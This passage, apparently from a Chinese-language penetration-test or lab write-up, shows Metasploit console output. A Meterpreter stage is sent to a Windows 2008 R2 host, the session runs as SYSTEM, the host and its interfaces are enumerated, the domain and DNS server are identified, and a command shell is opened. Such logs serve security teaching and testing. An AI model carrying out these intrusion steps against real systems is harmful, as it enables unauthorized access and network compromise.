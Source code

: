 ```
[*] Started bind handler
[*] Sending stage (205379 bytes) to 10.0.1.26
[*] Meterpreter session 5 opened (10.0.0.5-10.0.0.9:0 -> 10.0.1.26:4444) at 2018-05-31 02:08:05 +0000

meterpreter > sysinfo
Computer        : IT-MANAGE-PC
OS              : Windows 2008 R2 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : GBOX
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > ifconfig

Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 11
============
Name         : Microsoft Teredo Tunneling Adapter
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : fe80::100:7f:fffe
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface 13
============
Name         : AWS PV Network Device #0
Hardware MAC : 0a:d9:e6:59:35:f0
MTU          : 9001
IPv4 Address : 10.0.1.26
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::4171:a218:74ca:871f
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface 14
============
Name         : Microsoft ISATAP Adapter
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : fe80::5efe:a00:11a
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
```
同时，我们发现目标机(10.0.1.26)是一个加入了GBOX域的机器，且DNS服务器的IP是`10.0.1.7`:
```
meterpreter > shell
Process 4080 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
```